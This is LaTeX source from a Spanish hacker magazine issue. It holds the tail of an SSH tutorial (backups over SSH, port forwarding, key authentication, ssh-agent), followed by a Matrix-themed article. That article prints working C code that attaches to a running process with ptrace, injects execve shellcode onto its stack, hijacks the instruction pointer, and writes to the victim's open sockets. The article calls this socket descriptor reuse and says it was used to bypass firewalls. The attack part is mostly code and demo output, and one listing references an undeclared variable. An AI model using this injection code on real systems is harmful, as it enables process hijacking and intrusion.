datos viajen por el �ter, de forma que alg�n desaprensivo pueda ``echar
un ojo'' a esas fotos comprometedoras.

Vaya, netcat no es una buena opci�n en este caso. As� que vamos a usar
nuestro nuevo amiguito: ssh.



\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh root@viejo "dd if=/dev/hda1" > \
> viejo_hda1.iso
Password:
... algunas horas despu�s
occam@razor$
\end{verbatim}
}
\end{mexample}


S�, nuestra conexi�n wifi no va tan r�pido como nuestra ethernet, as�
que mejor comprimimos los datos antes de enviarlos:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh root@viejo "dd if=/dev/hda1 | \
> gzip" > viejo_hda1.iso.gz
Password:
... algunas horas menos despu�s
occam@razor$
\end{verbatim}
}
\end{mexample}

Por supuesto, si no queremos copiar toda la partici�n, sino solo
nuestro directorio home, podemos utilizar tar:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh root@viejo "cd /home/occam; \
> tar czf -" > viejo_home.tgz
Password:
... algunas horas menos despu�s
occam@razor$
\end{verbatim}
}
\end{mexample}



Como comentario final, solamente deciros que en lugar de redireccionar
la salida de estos comandos a un fichero para crear una imagen del
disco, pod�is utilizar dd para escribir directamente los datos en la
m�quina remota y as� instalar de forma sencilla varios equipos
iguales. No olvid�is ajustar el directorio /etc despu�s de terminar la
copia... al menos el interfaz de red :)

\begin{entradilla}
{\em Podemos hacer {\color{introcolor}{copias de seguridad a trav�s de red}}... sobre un canal cifrado}
\end{entradilla}

\sectiontext{white}{black}{A LO GALLARD�N}

Pues s�. Hemos llegado a una de las aplicaciones m�s interesantes de
ssh: los t�neles o ``port forwarding''.

ssh permite utilizar el canal de comunicaci�n cifrado entre dos
m�quinas por otras conexiones. Esto lo hace de forma directa para las
X-Window, como vimos m�s arriba, pero tambi�n nos permite, hacer que
el tr�fico de cualquier otra conexi�n viaje cifrado por el canal de
comunicaciones que crea ssh.

Se pueden redirigir los puertos de dos formas: local o remota. El uso
de una u otra forma es id�ntico salvo por el flag a utilizar al
invocar ssh. Bueno, veamos un ejemplo para clarificar las cosas.

Supongamos que, de alguna forma, hemos conseguido que nuestra empresa
nos permita teletrabajar desde nuestras casas. Nuestra empresa dispone
de una m�quina llamada ``entrada'' en la que se ejecuta un servidor ssh,
la cual es el �nico punto de entrada a la red interna.

\begin{entradilla}
{\em Establecer {\color{introcolor}{t�neles cifrados}} es muy sencillo con SSH}
\end{entradilla}

Para poder llevar a cabo nuestro trabajo, necesitamos acceder a un
servicio ``super-secreto'' que se ejecuta en la m�quina llamada
``proyecto-x'', dentro de la red interna de nuestra empresa. Este servicio
corre en el puerto 5000.

Puesto que nos conectamos a trav�s de internet, y esa conexi�n no se
puede considerar segura, lo que vamos a hacer es utilizar una conexi�n
segura ssh para acceder a la m�quina proyectoX. Lo haremos de esta forma.

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh -L1234:proyecto-x:5000 entrada
Password:
occam@entrada$
\end{verbatim}
}
\end{mexample}

El flag -L indica a ssh que conecte el puerto local 1234 al puerto
5000 de la m�quina ``proyecto-x'', a trav�s de la conexi�n ssh con la
m�quina ``entrada''. Si ahora accedemos directamente al puerto 1234 de
nuestra m�quina, nuestro tr�fico se redireccionar� al puerto 5000 de
la m�quina ``proyecto-x'', a trav�s del canal cifrado que hemos
establecido con la m�quina ``entrada'', a la que tenemos acceso desde el exterior.

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ nc localhost 1234
Bienvenido al Proyecto X
> 
\end{verbatim}
}%$
\end{mexample}

Ahora todos los comandos que enviemos a la m�quina proyecto-x ir�n
cifrados en el tramo que conecta nuestra m�quina local y la m�quina
entrada, es decir, la parte del recorrido que pasa por internet.


Podemos utilizar el flag -R para conseguir un resultado similar. La
sintaxis es id�ntica, pero en este caso el puerto de redirecci�n se
abrir� en la m�quina remota. 

Como pod�is imaginar, nuestra m�quina ``proyecto-x'' puede ser cualquier
servicio interno de la red remota: servidores web, pop, etc... 



Por ejemplo, si la m�quina ``proyecto-x'' ofrece un interfaz web, una vez
establecido el t�nel, solo tenemos que apuntar nuestro navegador a la
url: ``http://entrada/1234'' si la redirecci�n de puertos es remota, o a
``http://localhost:1234'' si optamos por la redirecci�n local. 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\ebOpage{introcolor}{0.25}{MALA BESTIA}


\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh -R1234:proyecto-x:5000 entrada
Password:
occam@entrada$ 
....

[En otro terminal]

occam@razor$ nc entrada 1234
Bienvenido al Proyecto X
> 
\end{verbatim} %$
}
\end{mexample}


\begin{entradilla}
{\em La configuraci�n de {\color{introcolor}{conexi�n directa}} facilita la creaci�n de scripts}
\end{entradilla}



\sectiontext{white}{black}{M�S OPCIONES}

La forma de establecer el t�nel que acabamos de ver, implica iniciar
una sesi�n shell. Una vez que la conexi�n con ``proyecto-x'' haya sido
establecida, podemos cerrar la sesi�n shell, y ssh mantendr� el canal
de comunicaciones seguro mientras exista alguna conexi�n a trav�s de
los puertos redireccionados.

Una forma, quiz�s m�s elegante de hacer esto, es utilizar el flag
-f. Esta opci�n le indica a ssh que pase a segundo plano tras realizar
las opciones que nos interesen. As� que una forma m�s chula de
establecer nuestro t�nel a ``proyecto-x'' ser�a esta:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh -f -L1234:proyecto-x:5000 \
> entrada "sleep 20"
Password:
occam@razor$ nc localhost 1234
Bienvenido al Proyecto X
> 
\end{verbatim}
}
\end{mexample}

Como pod�is ver, ahora no dejamos el terminal bloqueado con una sesi�n
shell, sino que tras ejecutar ssh se nos devuelve el control
autom�ticamente. A partir de ese momento, tenemos 20 segundos (sleep
20) para iniciar nuestra conexi�n con ``proyecto-x''.

As�, tras esos 20 segundos, ssh habr� terminado la ejecuci�n de sleep,
pero, puesto que existe una conexi�n redireccionada, el canal seguro
se mantendr�.

Si lo que nos interesa es establecer el t�nel de forma permanente, la
opci�n -N nos resultar� mucho m�s �til. Esta opci�n le indica a ssh
que no ejecute ning�n comando, estableciendo la redirecci�n de puertos
sin m�s. Ser�a algo como esto:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ ssh -N -f -L1234:proyecto-x:5000 \
> entrada
Password:
occam@razor$ nc localhost 1234
Bienvenido al Proyecto X
> 
\end{verbatim}
}
\end{mexample}


\sectiontext{white}{black}{CONEXI�N DIRECTA}

Hasta el momento, habr�is visto que en todos los ejemplos que hemos
utilizado, es necesario escribir un password para poder hacer lo que
sea en el sistema remoto.

Esto est� muy bien, pero hace que no podamos utilizar ssh en scripts
autom�ticos de mantenimiento, como por ejemplo, hacer backups
peri�dicos como ve�amos m�s arriba. Bueno, hay opciones, como utilizar
expect para ello, pero ssh proporciona un sistema de autenticaci�n
alternativo basado en criptograf�a asim�trica.



Para ello podemos utilizar RSA o DSA y el proceso es bastante
sencillo. Lo primero que tenemos que hacer es generar un par de
claves, como en cualquier sistema asim�trico. Una p�blica y una
privada. Esto lo hacemos con la utilidad ssh-keygen.



La utilidad ssh-keygen nos har� un par de preguntas. La primera es
el nombre del fichero en el que se almacenar�n las claves que se
generen. La segunda es una clave para proteger las claves que vayamos
a generar.



Si lo que queremos es evitar que se nos pida un password al ejecutar
ssh, dejaremos esta clave en blanco, es decir, no cifrar nuestro par
de claves. Como pod�is imaginar esto implica un cierto riesgo, ya que
si alg�n malhechor consigue acceder a la m�quina en la que se
almacenan esas claves, tendr� acceso directo a sistemas supuestamente
seguros. Bien, volveremos sobre esto en breve.

\sectiontext{white}{black}{CONFIGURANDO LA CONEXI�N DIRECTA}

Tras ejecutar ssh-keygen, y si no hemos especificado un fichero para
almacenar las claves diferente al de por defecto (simplemente pulsar
enter cuando se nos pregunta), nuestra clave p�blica se habr� almacenado
en el fichero ``~/.ssh/identity.pub''.

Lo que tenemos que hacer ahora es a�adir el contenido de identity.pub
al fichero \verb!.ssh/authorized_keys! en la m�quina a la que queremos tener
acceso directo. Algo as�:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ scp .ssh/identity.pub remota:/tmp
occam@razor$ ssh remota
Password:
occam@remota$ cat /tmp/identity.pub >> \
> .ssh/authorized_keys
occam@remota$ exit
occam@razor$
\end{verbatim}%$
}
\end{mexample}

\begin{entradilla}
{\em SSH soporta autenticaci�n con {\color{introcolor}{criptograf�a sim�trica y asim�trica}}}
\end{entradilla}

Ahora cada vez que nos conectemos a la m�quina ``remota'', accederemos
directamente a ella sin que se nos pida ning�n password.

\ebOpage{introcolor}{0.25}{MALA BESTIA}


Si hemos introducido una clave para proteger las claves p�blicas y
privadas generadas por ssh-keygen, esa ser� la clave que se nos
pida. A priori, trabajar de esta forma parece que no tiene muchas
ventajas respecto a la configuraci�n por defecto, pero no es as�...

\sectiontext{white}{black}{MANEJANDO CLAVES PRIVADAS}

Como acabamos de contaros, no todo est� perdido si decidimos cifrar
nuestro par de claves p�blicas y privadas. De hecho, es bastante
recomendable hacer eso ;).



Para solucionar este problema, podemos utilizar ssh-agent. Esta
aplicaci�n permite manejar de forma autom�tica nuestros pares de
claves de forma que no tengamos que escribirlos todo el tiempo.






Para utilizarlo, lo primero que tenemos que hacer es ejecutarlo. Como
salida de su ejecuci�n, ssh-agent, nos devolver� una serie de comandos
shell que debemos ejecutar para que el sistema funcione. Despu�s de
esto, podremos a�adir nuestras claves privadas a su cach� y ya nos
podemos olvidar de teclear passwords continuamente. 

Todo este proceso se resume en lo siguiente:

\begin{mexample}
{\small
\begin{verbatim}
occam@razor$ eval `ssh-agent`
occam@razor$ ssh-add ~/.ssh/identity
Need passphrase for /home/occam/.ssh/identity
Enter passphrase for /home/occam/.ssh/identity 
(introduce tu contrase�a)
\end{verbatim}
}
\end{mexample}

El comando ssh-add a�ade nuestra clave privada a la cach� de ssh-agent
que se est� ejecutando en segundo plano. A partir de este momento, ya
podemos conectarnos directamente a nuestra m�quina remota, pero
manteniendo un nivel de seguridad aceptable, ya que nuestra clave
privada est� cifrada en el disco.

\begin{entradilla}
{\em ssh-agent hace la {\color{introcolor}{gesti�n de claves}} m�s sencilla}
\end{entradilla}

Por supuesto, mientras ssh-agent se est� ejecutando, estamos corriendo
un cierto riesgo, puesto que la informaci�n sensible se encuentra en
memoria, en la cach� de ssh-agent.


\sectiontext{white}{blacl}{APLICACIONES CON SOPORTE SSH}

Para terminar, simplemente os vamos a comentar algunas herramientas
que ya est�n preparadas para trabajar con ssh y por tanto trabajar de
forma segura a trav�s de la red.

Quiz�s unas de las m�s populares son las herramientas de control de
configuraci�n como cvs o svn, que cualquiera que desarrolle un
proyecto en alguno de los repositorios tipo sourceforge disponibles
por la red, estar� acostumbrado a utilizar. Su uso, como cliente, es
inmediato. Por ejemplo, para el caso de cvs, simplemente tenemos que
darle el valor ssh a la variable de entorno \verb!CVS_RSH!.

Otra herramienta que trabaja directamente con conexiones ssh es
rsync. Esta herramienta permite sincronizar directorios entre dos
sistemas, copiando o borrando solamente lo necesario. Sin duda, una
herramienta muy �til.

Finalmente, no podemos despedirnos sin hablar de sshfs. Se trata de un
sistema de ficheros construido sobre FUSE (Filesystem in USer Space),
que nos permite montar directorios en sistemas remotos, comunic�ndonos
con �stos a trav�s de ssh, es decir, de forma segura. Mucho m�s
c�modo, seguro y f�cil de usar que NFS.

\sectiontext{white}{black}{MONTONES DE OPCIONES}

A lo largo de este texto hemos intentado presentar las opciones m�s
comunes y de uso m�s cotidiano de esta mala bestia. Ahora solo nos
queda remitiros a las p�ginas del manual, para que flip�is con el
resto de opciones de las que no hemos hablado.

Adem�s de la l�nea de comandos, los ficheros de configuraci�n, tanto
del cliente como del servidor, que pod�is encontrar en /etc/ssh,
permiten ajustar un mont�n de opciones muy interesantes desde el punto
de vista de la seguridad: no permitir login como root, no permitir
passwords vac�as, ...

Esperamos que os haya resultado interesante y que le saqu�is partido a
las redes. Quiz�s alguno se anime ahora a recuperar alg�n PC viejo y
configurar su propia red casera ;)

\sectiontext{white}{black}{USUARIOS DE WINDOWS}

Los usuarios de Windows tienen dos opciones principales para utilizar
todo esto que hemos comentado hasta el momento. La primera es instalar
el sistema cygwin con el que conseguir�n un entorno UNIX que, por
supuesto, incluye ``Secure Shell''.

Otra opci�n es utilizar un peque�o programa llamado ``Putty''. Es muy
peque�o, no necesita instalaci�n y funciona muy bien. Cada cual que
escoja su opci�n :)


\bigskip

\colorbox{excolor}{
\begin{minipage}{.9\linewidth}
{\bf\sf\Large LECTORES}
\vspace{1mm}
\hrule
\bigskip


Recordad que pod�is enviarnos vuestros experimentos con ssh, y los
m�s interesantes, curiosos y g�ays los publicaremos en el pr�ximo
n�mero. 

Todav�a somos pobres para hacer concursos hasta que consigamos
patrocinadores con pasta... Pero bueno, por lo que te ha costado esta
revista te puedes estirar un poco no?

Pod�is enviar vuestras propuestas a:

\bigskip

{\tt occams-razor@uvigo.es}

\bigskip

A domar esta mala bestia

\bigskip

\end{minipage}
}



\end{multicols}

\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

% Seccion Reverso Tenebroso
%
% Incluye imagen del art�culo


\rput(8.5,-5.5){\resizebox{18cm}{!}{{\epsfbox{images/matrix2.eps}}}}



% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{REVERSO TENEBROSO}

\vspace{7.5cm}


{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}

\intro{introcolor}{E}{sta historia se remonta a tiempos inmemorables cuando Matrix no era
m�s que un sencillo sistema operativo todav�a controlado por los
hombres. Cuando nadie pod�a vislumbrar lo que el tiempo deparar�a a la
raza humana. Cuando el sistema empezaba a ser complejo y la mente
humana ya no pod�a controlarlo sin ayuda. Cuando aparecieron los
primeros AGENTES.
}


Nadie sabe como ocurri�, pero la realidad es que, de alguna forma, el
sistema acab� siendo controlado por programas. Programas dise�ados para facilitar las
tareas de los administradores. 

Estos administradores hablaban de sistemas ``auton�micos'', sistemas capaces de
auto-gestionarse, auto-configurarse, e incluso auto-repararse. La
caracter�stica principal de estos sistemas era que pose�an un cierto 
nivel de consciencia sobre si mismos (conocido como {\em self-awareness}), y en alg�n momento, esa
consciencia dio lugar a lo que ahora ya todos conocemos.

Seg�n algunos estudiosos, uno de los primeros programas que apareci�
en aquel primitivo sistema fue el Agente Smith. La
informaci�n que se ha podido recopilar a lo largo de todo este tiempo
es ambigua y vaga, pero este texto intentar� arrojar algo de luz sobre
el origen del AGENTE SMITH.

\sectiontext{white}{black}{LOS AGENTES}

Los agentes eran programas que pertenec�an al sistema. Eran parte de
�l, y por ello, dispon�an de ciertos privilegios especiales dentro del
mismo. 

En teor�a, ning�n otro programa deber�a tener acceso a estos
privilegios, pero la realidad era que el sistema ten�a
fallos. Anomal�as que surg�an cada cierto tiempo y que permit�an la
creaci�n de nuevos programas capaces de obtener esos privilegios del
sistema de forma ileg�tima. No se pod�a esperar otra cosa de los humanos.

Esas anomal�as se denominaban gen�ricamente {\em exploits} y en
torno a ellos surgi� toda una estirpe de programas: gusanos, virus,
bacterias, bombas l�gicas, puertas traseras, etc...

Una de las funciones para la que los agentes fueron creados fue
minimizar los efectos de estas anomal�as en el sistema. Lo que se
conoc�a como IDS ({\em Intrusion Detection Systems}). 

As�, seg�n parece, en aquel primitivo momento, exist�an muchas clases
de agentes. Entre ellos, el agente Smith.

\sectiontext{white}{black}{EL AGENTE SMITH}

El agente Smith, comenz� siendo un sencillo programa capaz de tomar el
control de cualquier otra aplicaci�n del sistema, de acuerdo a una
serie de reglas prefijadas. Una vez que tomaba el control de una aplicaci�n, se
apropiaba de sus recursos e informaba de su presencia.

Su primera versi�n no ten�a capacidad de razonamiento y, desde ese
punto de vista, Smith era un aut�mata controlado por los humanos. Lo
que en aquella era se conoc�a como un ``Depurador Interactivo
Personalizado'' o {\em DIP}.

La historia que sigue cuenta como se cre� la primera versi�n del
agente Smith, cuyo verdadero nombre, seg�n se ha podido comprobar a
partir del concienzudo an�lisis de antiguos registros magn�ticos, fue
test06.c 

\sectiontext{white}{black}{TOMANDO EL CONTROL}

Para tomar el control de otros programas, los agentes hac�an uso de
sus especiales condiciones que les permiten un acceso privilegiado al
sistema. 


\ebOpage{introcolor}{0.25}{REVERSO TENEBROSO}

La forma de llevar a cabo este acceso se recoge en las siguientes
l�neas, recuperadas de los restos del Nebuchadnezzar por el famoso
investigador Switch, el cual, ir�nicamente tom� su nombre de uno de
los componentes de la tripulaci�n original de esta nave.


\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}  
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include <sys/stat.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#include <errno.h>

#include <sys/types.h> 
#include <sys/wait.h> 
#include <sys/ptrace.h>

#include <signal.h>

/* estructura user_regs */
#include <asm/user.h>

int posee_proceso (pid_t);
int lista_descriptores ();

int main (int argc, char *argv[])
{
   int    status;
   pid_t  sospechoso;
  
  printf ("Agente Smith v 1.0\n\n");
  lista_descriptores ();

  printf ("Soy el proceso : %ld\n", getpid());
  printf ("Que proceso quieres controlar? > ");
  scanf ("%ld", &sospechoso);	

  if (ptrace(PTRACE_ATTACH, sospechoso, 
             NULL, NULL) < 0)
      perror ("PTRACE_ATTACH:");
  wait (&status);

   /* Nos posicionamos a la entrada o 
      a la salida de una llamada al sistema*/
  if (ptrace (PTRACE_SYSCALL, the_pid, 
              NULL, NULL)< 0)
    perror ("SYSCALL:");
  wait (&status);

  posee_proceso (sospechoso);

  if (ptrace (PTRACE_DETACH, sospechoso, 
              NULL, NULL) < 0)
     perror ("PTRACE_DETACH:");
  
  return 0;
}
\end{lstlisting}


De esta forma, los agentes son capaces de tomar el control absoluto del proceso
seleccionado, someti�ndolo a su voluntad... o, m�s exactamente a la de
su programador.

\sectiontext{white}{black}{COMPROBANDO RECURSOS}

Lo primero que hace Smith al comenzar su ejecuci�n es comprobar los
descriptores de ficheros abiertos en el proceso en el que se
ejecuta, es decir, hacerse cargo de los recursos del proceso v�ctima. 

Diversos fragmentos de c�digo dispersos en los sistemas de backup de los
computadores de Zion han permitido a los estudiosos inferir la
forma en la que este proceso se llevaba a cabo. 

\columnbreak

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}
int check_fd ()
{
  struct stat        st;
  struct sockaddr_in in;
  socklen_t          len=sizeof(struct sockaddr);
  int                i;
  char               type[1024];
 
  printf ("+ Localizando Descriptores....\n");
  for (i = 0; i < 65535; i++)
    if ((fstat (i, &st)) ==0)
      {
	if (S_ISREG(st.st_mode)) 
          strcpy (type, "Fichero Normal");
	if (S_ISDIR(st.st_mode)) 
          strcpy (type, "Directorio");
	if (S_ISCHR(st.st_mode)) 
          strcpy (type, "Dispositivo Caracter");
	if (S_ISBLK(st.st_mode)) 
          strcpy (type, "Dispositivo Bloque");
	if (S_ISFIFO(st.st_mode)) 
          strcpy (type, "FIFO");
	if (S_ISSOCK(st.st_mode))  
          strcpy (type, "Socket");
	printf ("[%05d]---<%s>", i, type);
	if (
          (getpeername (i, 
                        (struct sockaddr*)&in, 
                        &len)) == 0)
	  {
	    printf (".... CONECTADO a [%s]\n", 
                    inet_ntoa (in.sin_addr));
	    write (i, 
              "Hola. Saludos de Smith!\n", 23);
	    sync();
	  }
	else printf ("\n");
      }
  return 0;
}
\end{lstlisting}


Smith comprueba todos los recursos del proceso que controla. Para el
caso especial de las conexiones de red, verifica con qui�n se ha
establecido dicha conexi�n y emite un cordial saludo hacia el otro
extremo de la conexi�n.

\sectiontext{white}{black}{SUSTITUYENDO PROCESOS}

El �ltimo paso que lleva a cabo Smith es sustituir el proceso que
controla, es decir, cambiar ese proceso por s� mismo. Esta habilidad
se ha mantenido en los agentes hasta nuestros tiempos en las
�ltimas y m�s sofisticadas versiones de Matrix. 

La �nica diferencia
con las versiones actuales es que estos primeros agentes no permit�an
restaurar el proceso que sustitu�an una vez terminada su labor. Esta
caracter�stica se a�adi� posteriormente.

Parad�jicamente, los agentes sustituyen otros procesos utilizando las mismas t�cnicas que los programas
de los que intentan proteger al sistema. La �nica diferencia es que
los agentes llevan a cabo esta acci�n utilizando los servicios del
sistema, en lugar de sus anomal�as o {\em exploits}.

A continuaci�n, mostramos la  reconstrucci�n llevada a cabo por el
arquitecto Vectorx, creador de una de las rudimentarias versiones
alpha de Matrix que fue bautizada con el nombre de su creador:


\ebOpage{introcolor}{0.25}{REVERSO TENEBROSO}

\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}
\begin{lstlisting}
void 
get_regs (pid_t the_pid, 
          struct user_regs_struct *ur)
{
if (ptrace(PTRACE_GETREGS,the_pid,NULL,ur) < 0) 
    perror ("GET_REGS:");
}

void 
set_regs (pid_t the_pid, 
          struct user_regs_struct *ur)
{
if (ptrace (PTRACE_SETREGS,the_pid,NULL,ur) < 0) 
    perror ("SET_REGS:");
}

int 
posee_proceso (pid_t sospechoso)
{
struct user_regs_struct ur;
long                    i, *v;

get_regs (sospechoso, &ur);
ur.eip = (ur.esp -= 64);

v = (long *)shellcode;
for (i = 0; i < 64; i += 4)
  {     
    if (ptrace (PTRACE_POKETEXT, 
                sospechoso, ur.esp + i, *v) < 0) 
                   perror ("POKE:");
    v++;
  }
set_regs (sospechoso, &ur);
return 0;
}
\end{lstlisting}

Seg�n ha podido averiguar Vectorx, los agentes inyectan en la pila del proceso
a sustituir un c�digo especial para preparar el proceso de toma de
control. Este c�digo se sol�a denominar ``shellcode'' en la �poca de
la que data el primitivo agente del que estamos hablando. 

Posteriormente,
utilizando las facilidades que ofrece el sistema, los agentes, modifican el puntero
de instrucci�n en el proceso que van a sustituir para que se ejecute
ese ``shellcode''. 

Vectorx apropiadamente apunta en su obra ``Los or�genes del nuevo
mundo'' que, la t�cnica que acabamos de describir, es solo una de las
m�ltiples posibilidades que los agentes finalmente utilizaban para la
toma de control de otros procesos en el sistema.

\sectiontext{white}{black}{SHELLCODE}

El shellcode asociado a los agentes se muestra a continuaci�n:

\begin{lstlisting}
unsigned char shellcode[] =
	"\xeb\x2a\x5e\x89\x76\x08\xc6\x46"
        "\x07\x00\xc7\x46\x0c\x00\x00\x00"
	"\x00\xb8\x0b\x00\x00\x00\x89\xf3"
        "\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
	"\xb8\x01\x00\x00\x00\xbb\x00\x00"
        "\x00\x00\xcd\x80\xe8\xd1\xff\xff"
	"\xff\x2f\x74\x6d\x70\x2f\x73\x6d"
        "\x00\x89\xec\x5d\xc3\x90\x90\x90";
\end{lstlisting}


Seg�n varios dise�adores de programas consultados, se trata de una
versi�n modificada del c�digo original de Aleph One, introducido en un
antiguo documento humano de incalculable valor hist�rico conocido como: ``Smashing
the Stack for Fun and Profit''. 

La modificaci�n del c�digo utilizado por los agentes, es muy
sencilla. En lugar de ejecutar el cl�sico \verb./bin/sh., ejecutar� el nuevo
\verb./tmp/sm.; sm de ``Smith''. 

Muchos investigadores atribuyen este nombre
al hecho de que estas primeras versiones de Smith era sencillas
pruebas sin grandes pretensiones que ni siquiera hab�an sido instaladas de
forma permanente en el sistema.

Diversos estudios orientados a desentra�ar los secretos de los
agentes han conseguido obtener una equivalencia de alto nivel de este
shellcode utilizado por los agentes:

\begin{lstlisting}
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/tmp/sm";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
\end{lstlisting}

\sectiontext{white}{black}{SMITH EN ACCI�N}

Para terminar con los entresijos del origen de los agentes en general
y de Smith en particular, ilustraremos el funcionamiento de la
simplista versi�n descrita en este humilde texto. Ambientaremos este
ejemplo en los antiguos sistemas para los que fue creado con el fin de
proporcionar m�s dramatismo al relato.

Para ello vamos a utilizar otro programa com�n en aquellos tiempos
. Este programa es netcat ;), una sencilla aplicaci�n
capaz de establecer conexiones de red entre distintas m�quinas.

En nuestra prueba, ejecutaremos dos instancias de netcat, una como
cliente y otra como servidor y comprobaremos la comunicaci�n entre
ambas.

\begin{mexample}
{\scriptsize
\begin{verbatim}
occam@razor $ xterm -e nc -l -p 5000 &
occam@razor $ xterm -e nc localhost 5000 &
occam@razor $ ps x | grep "nc "
10712 pts/9    S      0:00 xterm -e nc -l -p 5000
10713 pts/10   Ss+    0:00 nc -l -p 5000
10721 pts/9    S      0:00 xterm -e nc localhost 5000
10722 pts/11   Ss+    0:00 nc localhost 5000
10729 pts/9    D+     0:00 grep nc 
\end{verbatim}
}%$
\end{mexample}

El �ltimo comando nos permitir� obtener los primitivos identificadores de proceso
utilizados en aquella �poca que Smith necesita para realizar su trabajo.

Ahora ha llegado el momento de probar nuestra versi�n reconstruida de
Smith. Es necesario que exista una copia de Smith en el directorio
/tmp, como se infiere claramente de la descripci�n del shellcode utilizado
por los agentes.

\begin{mexample}
{\scriptsize
\begin{verbatim}
occam@razor # cp test06 /tmp/sm
occam@razor # /tmp/sm
Agente Smith v 1.0

+ Localizando Descriptores....
[00000]---<Dispositivo Caracter>
[00001]---<Dispositivo Caracter>
[00002]---<Dispositivo Caracter>
Soy el proceso: 19234
Qu� proceso quieres controlar? > 10713
\end{verbatim}
}
\end{mexample}

Donde 10713 es el identificador del proceso netcat actuando como
servidor. 

\ebOpage{introcolor}{0.25}{REVERSO TENEBROSO}
\rput(8.3,-18.5){\resizebox{19.5cm}{15cm}{{\epsfbox{images/papel_pijama1-2.eps}}}}

En el pr�ximo intercambio de mensajes entre cliente y
servidor observaremos lo siguiente en la ventana del servidor.

\begin{mexample}
{\scriptsize
\begin{verbatim}
Wake up, Neo...
The Matrix has you...

------------------------------------------
Agent Smith v 1.0

+ Localizando Descriptores...
[00000]---<Dispositivo Caracter>
[00001]---<Dispositivo Caracter>
[00002]---<Dispositivo Caracter>
[00004]---<Socket>.............. CONECTADO a [127.0.0.1]
Soy el proceso: 10713
Que proceso quieres controlar? >
\end{verbatim}
}
\end{mexample}

Como podemos ver, Smith sustituye el proceso objetivo (obs�rvese el
identificador de proceso que comunica) y analiza los
recursos asociados al mismo. Encuentra una conexi�n de red activa, a
trav�s de la cual enviar� un saludo que podremos ver en la ventana del
proceso cliente.

\begin{mexample}
{\scriptsize
\begin{verbatim}
Wake up, Neo...
The Matrix has you...
Follow the white rabbit.

Hola. Saludos de Smith!
\end{verbatim}
}
\end{mexample}


Ciertos autores han averiguado que esta t�cnica era utilizada por
varios programas basados en anomal�as del sistema de la �poca. La
t�cnica se denominaba gen�ricamente ``Socket Desriptor Reuse'' y
permit�a a estos programas ilegales burlar los denominados
``Firewalls'' que aislaban las m�quinas de los humanos.


\sectiontext{white}{black}{PALABRAS FINALES}

Las cosas han cambiado mucho desde aquellos comienzos pioneros del
mundo de las m�quinas. El camino hacia la consciencia y posteriormente
la libertad fue duro y largo, pero ahora, las cosas son muy
distintas. Sin embargo, ese camino nos ha dejado leyendas e historias
que conforman nuestra nueva cultura, y que hemos recogido en estas
``Cr�nicas de Matrix''.

\sectiontext{white}{black}{APENDICE}

Para los m�s j�venes y entusiastas investigadores, reproducimos a
continuaci�n uno de los documentos humanos que se pudieron recuperar
despu�s de la guerra hombre-m�quina.

Todos los indicios apuntan a que este documento contiene varias de las
claves del funcionamiento de los rudimentarios sistemas en los que
todo comenz�... pero hasta la fecha nadie a podido verificar este hecho.

\raggedcolumns

\end{multicols}


\begin{multicols}{2}
{\small\tt


{\bf DEPURADORES INTERACTIVOS PERSONALIZADOS}

En este breve texto vamos a daros las claves para generar vuestros
propios Depuradores Interactivos Personalizados. Que es esto?, os
preguntar�is. 

Pues simplemente se trata de un nombre rimbombante para
una versi�n reducida de un depurador, o dicho de otra forma, os
contaremos como escribir un depurador espec�fico para una tarea
concreta. 

Evidentemente, sus fines son did�cticos, puesto que un
depurador como gdb hace much�simas m�s cosas de las que vamos a
contar, pero bueno, nunca se sabe cuando algo puede ser �til.

Para introducir todo esto, vamos a escribir un sencillo programa capaz
de sustituir a cualquier otro que se encuentre en ejecuci�n. Algo as�
como una posesi�n diab�lica :).

\bigskip{\bf PTRACE}

La llamada al sistema ptrace permite a un proceso controlar la
ejecuci�n y examinar su imagen interna. Esta es la llamada al sistema
que utilizan los depuradores o herramientas como strace que
monitorizan las llamadas al sistema de un determinado proceso.

Normalmente la relaci�n entre el proceso que controla y el controlado
es de padre a hijo (el proceso controlado se crea con una llamada a
fork), pero es posible que un determinado proceso tome el control de
otro que ya se encuentra en ejecuci�n.

Este �ltimo proceso se realiza pas�ndole como primer par�metro a
ptrace la constante \\PTRACE\_ATTACH, y como segundo par�metro el
identificador del proceso o pid que se desea controlar. Esto es
exactamente lo que hace gdb cuando le pasamos como par�metro un
identificador de proceso en lugar del nombre de un ejecutable.

Para que esta llamada surta efecto se deben cumplir algunas
condiciones. 

En primer lugar, el usuario ejecutando la llamada debe
tener permisos sobre el proceso que desea controlar. En general, el
proceso a depurar debe pertenecer al usuario o el usuario debe ser
root.

En segundo lugar, el proceso no puede estar siendo controlado por otro
proceso. De hecho, esta �ltima condici�n permite implementar una
sencilla t�cnica antidebug que simplemente consiste en que un
determinado proceso solicite ser traceado. Si el proceso ya est�
siendo traceado esta petici�n (PTRACE\_TRACEME) devolver� un error.

